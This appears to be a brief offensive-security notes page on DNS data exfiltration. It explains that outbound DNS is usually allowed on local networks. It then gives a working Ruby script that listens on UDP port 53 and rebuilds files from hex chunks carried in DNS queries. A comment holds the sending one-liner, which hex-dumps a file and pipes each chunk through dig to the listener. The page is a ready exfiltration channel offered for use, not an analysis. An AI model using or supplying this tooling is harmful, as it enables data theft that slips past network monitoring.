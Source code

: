 # DNS 


## DNS Data Exfiltration 
DNS out-band connection is usually allowed in local networks, which is the major benefits of using DNS to transfer data to external server. 

```ruby
#!/usr/bin/env ruby
#
# for c in $(xxd -p image.jpg); do dig @localhost $c; done
# 
require 'socket'

if ARGV.size < 1
  puts "[+] sudp ruby #{__FILE__} <FILENAME>"
  exit
else
  file = ARGV[0]
end

udpsoc = UDPSocket.new
udpsoc.bind('0.0.0.0', 53)

begin

  data     = ''
  data_old = ''
  
  loop do
    response = udpsoc.recvfrom(1000)
    response = response[0].force_encoding("ISO-8859-1").encode("utf-8")
    data = response.match(/[a-f0-9]([a-f0-9]).*[a-f0-9]([a-f0-9])/i).to_s
    
    File.open(file, 'a') do |d|
      d.write [data].pack("H*") unless data == data_old
      puts data unless data == data_old
    end
    
    data_old = data 
  end

rescue Exception => e
  puts e
end
```






<br><br><br>
---
- [dnsteal.py](https://github.com/m57/dnsteal)